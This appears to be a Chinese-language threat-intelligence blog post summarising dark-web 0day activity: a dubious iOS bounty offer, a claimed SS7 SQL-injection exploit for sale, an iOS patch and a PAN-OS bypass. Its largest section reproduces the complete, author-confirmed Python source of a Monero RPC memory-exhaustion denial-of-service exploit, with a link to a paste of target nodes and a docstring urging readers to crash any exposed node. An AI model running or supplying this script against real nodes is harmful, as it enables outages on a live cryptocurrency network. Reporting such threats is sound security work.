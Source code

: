 #  近期暗网 0day 威胁情报预警   
原创 独眼情报  独眼情报   2025-02-14 03:59  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/KgxDGkACWnSgNXsqv7MW8ByXicx36FbAm16ibMicXS0mNcYvtE3RTiaeq4ox09S0yjVa7F2yf91x1ic14cpttQPA2dw/640?wx_fmt=jpeg&from=appmsg "")  
  
0day漏洞市场近期呈现双轨化发展态势，地下交易与合法渠道同步活跃：暗网市场中高频流转针对主流操作系统、虚拟化平台及工业控制系统的高危漏洞，而全球漏洞赏金市场规模已突破50亿，头部企业单漏洞奖励达百万级别，与此同时漏洞利用周期从披露到武器化平均压缩至7天，攻击面持续扩展（物联网设备漏洞同比激增300%，云原生架构漏洞占比超40%），但暗网市场存在虚假情报泛滥（占比约35%）、有效利用链不足20%、交易欺诈率28%等风险，常见传播手段包括夸大漏洞影响范围、伪造CVE编号/POC验证视频，建议企业通过加入权威漏洞情报平台、实施24小时动态补丁响应、部署覆盖率85%以上的虚拟补丁技术构建防御体系，个人用户需强化自动更新机制、配置EDR+防火墙+入侵检测的多层防护，并通过CVE官网/NVD数据库核验漏洞信息真实性。  
  
下面的内容全当图一乐，切莫当真！！！  
## 🚨 iOS 0day 高达1,000,000赏金！ 🚨  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/KgxDGkACWnSgNXsqv7MW8ByXicx36FbAmCztXE7pQsY4WtgbASWbVWIylTGq7akxrX08I976WFzAwKyKC5b9uWw/640?wx_fmt=png&from=appmsg "")  
  
Zerozenx为绕过最新版本的iOS上的USB限制模式提供了100万美元的奖励。如果您是顶级安全研究人员，并且拥有可靠的利用，我们希望收到您的来信！  
- 💰 奖励：$ 1,000,000  
  
- 🔎 目标：iOS USB限制模式旁路  
  
- 📩 在这里提交： https://vrp.zerozenx.com  
  
点评：感觉就是这么纯骗啊,即使真有，谁会发给你，谁信？🐶  
## 暗网威胁行为者声称出售为Otello SS7的0day  
>   
> SS7（七号信令系统），也称为七号信令系统（Signaling System Number 7），是一种被广泛应用于现代通信网络（如公共交换电话网和蜂窝通信网络）的共路信令系统。国际电信联盟推荐其为首选的标准信令系统.  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/KgxDGkACWnSgNXsqv7MW8ByXicx36FbAmibPq2wUPMlBBiaL6TiaM43px3sxLhxZgZ8gW1Zr0fG1BlZ06HoDkdKItQ/640?wx_fmt=png&from=appmsg "")  
  
威胁行为者正在bf 论坛上以 50000 美金的价格出售基于 SQLi 的 oTello SS7 0Day，此 0Day 漏洞将允许在 SS7 服务器上执行 SQL注入，从而可以完全控制Web 面板。将接受 Dread 托管，付款仅接受xmr（门罗币） 支付。  
## Monero 0day DoS利用  
  
大约4,5 个小时前，一个名为 WyRCV2 的组织在去中心化社交网络上发布了一条消息，可在以下链接中找到：https://primal.net/e/note1vzh0mj9rcxax9cgcdapupyxeehjprd68gd9kk9wrv939m8knulrs4780x7  
>   
> Monero 零日漏洞和利用  
> 与我们一起关闭 XMR 网络，让未来变得更美好。
保存、共享、使用。  
> https://anonpaste.org/?cccb7639afbd0650#HaMQAfzFdCqMDh9MwNuGRGUBXLgtk5yHWdAzS7MbvEVN  
  
  
粘贴链接包含攻击者指示瞄准的节点列表，以及利用攻击的 Python 代码。根据他们的解释，预计此漏洞将在 Monero 的下一个版本中得到修补。任何暴露其 RPC 端口的 Monero 节点都容易受到内存耗尽的影响。  
  
我可以确认 Python 代码可以正常工作，并且将其用于测试节点会导致因内存耗尽而崩溃。该代码非常简单，因为它会发送大量请求而不尝试读取响应，导致 Monero 将它们无限期地保存在内存中，直到崩溃发生。  
  
攻击者声称已经关闭了 8 个公共节点和 1 个种子节点，该节点用作新节点连接到网络的会合点。  
  
攻击代码  
```
"""ZERONERO DoS Exploit by WyRCV2 :3Feel free to use this Python script to destroy any Monero node with its RPC port open.This simply calls a very memory-exhaustive RPC request in a loop without asking the response. This will cause the node to crash."""

import asyncio
import threading
from math import ceil
import time
import argparse
import os

HTTP_REQUEST = "GET /json_rpc HTTP/1.1\r\n\User-Agent: zeronero/1 (WyRCV2 for the W)\r\n\Cookie: truth=exterminating the xmr cockroach\r\n\Accept: */*\r\n\Content-Type: application/json\r\n\Content-Length: 61\r\n\\r\n\{\"method\":\"get_output_distribution\",\"params\":{\"amounts\":[0]}}"

stop_event = threading.Event()
refused_lock = threading.Lock()
REFUSED = 0

async def spam_request(socket_id, host, port, loop_sleep, n_sockets):
    global REFUSED

    while not stop_event.is_set():
        try:
            reader, writer = await asyncio.open_connection(host, port)
            print(f"Socket {socket_id}: Connected to {host}:{port}. Requesting...")

            while not stop_event.is_set():
                writer.write(HTTP_REQUEST.encode('utf-8'))
                await writer.drain()
                print(f"Socket {socket_id}: Data sent successfully.")
                await asyncio.sleep(loop_sleep)

            print(f"Socket {socket_id}: Stop signal received, closing connection.")
            writer.close()
            await writer.wait_closed()

        except Exception as ex:
            if isinstance(ex, ConnectionRefusedError):
                with refused_lock:
                    REFUSED += 1
                    current_refused = REFUSED
                    print(f"Socket {socket_id}: Connection refused. Global REFUSED count = {current_refused}")
                    if current_refused >= n_sockets:
                        print("All socket connections were refused. Attack was successful. Signaling stop.")
                        stop_event.set()
                    else:
                        print(f"Socket {socket_id}: Error occurred: {ex}")

def start_event_loop(coroutines, thread_id):
    loop = asyncio.new_event_loop()
    asyncio.set_event_loop(loop)
    try:
        print(f"Thread {thread_id} starting with {len(coroutines)} coroutines.")
        loop.run_until_complete(asyncio.gather(*coroutines))
    finally:
        loop.close()
        print(f"Thread {thread_id} event loop closed.")

def parse_args():
    parser = argparse.ArgumentParser(description="ZERONERO DoS Exploit by WyRCV2 :P")
    parser.add_argument("--host", type=str, help="Target host")
    parser.add_argument("--port", type=int, help="Target port")
    parser.add_argument("--n_sockets", type=int, default=10, help="Total number of socket connections (default: 10)")
    parser.add_argument("--n_threads", type=int, default=os.cpu_count(), help="Number of threads (default: number of CPU cores)")
    parser.add_argument("--loop_sleep", type=float, default=0.10, help="Sleep time between write (seconds, default: 100 milliseconds)")
    parser.add_argument("--run_duration", type=float, default=300.0, help="Total run duration before stopping coroutines (seconds, default: 300.0)")
    return parser.parse_args()

def main():
    print("ZERONERO DoS Exploit by WyRCV2 :P")
    args = parse_args()

    all_coroutines = [
        spam_request(
            socket_id=i,
            host=args.host,
            port=args.port,
            loop_sleep=args.loop_sleep,
            n_sockets=args.n_sockets,
        ) for i in range(1, args.n_sockets + 1)
    ]

    coroutine_per_thread = ceil(len(all_coroutines) / args.n_threads)

    threads = []
    for thread_idx in range(args.n_threads):
        start_index = thread_idx * coroutine_per_thread
        end_index = start_index + coroutine_per_thread
        coroutine_slice = all_coroutines[start_index:end_index]
        if coroutine_slice:
            thread = threading.Thread(target=start_event_loop, args=(coroutine_slice, thread_idx + 1))
            threads.append(thread)
            thread.start()

    try:
        time.sleep(args.run_duration)
    except KeyboardInterrupt:
        print("Stopping coroutines.")
    finally:
        stop_event.set()

    for thread in threads:
        thread.join()

if __name__ == "__main__":
    main()

```  
## 苹果发布了 18.3.1 的安全更新  
  
苹果公司发布了iOS 18.3.1，这是一个紧急安全更新，以修补该公司所说的0day，该脆弱性是在目标和“极其复杂”攻击中被利用的。  
## Nginx/Apache 路径混淆导致 PAN-OS 中的身份验证绕过 (CVE-2025-0108)  
  
https://slcyber.io/blog/nginx-apache-path-confusion-to-auth-bypass-in-pan-os/  
  
poc里面也有。  
  
  
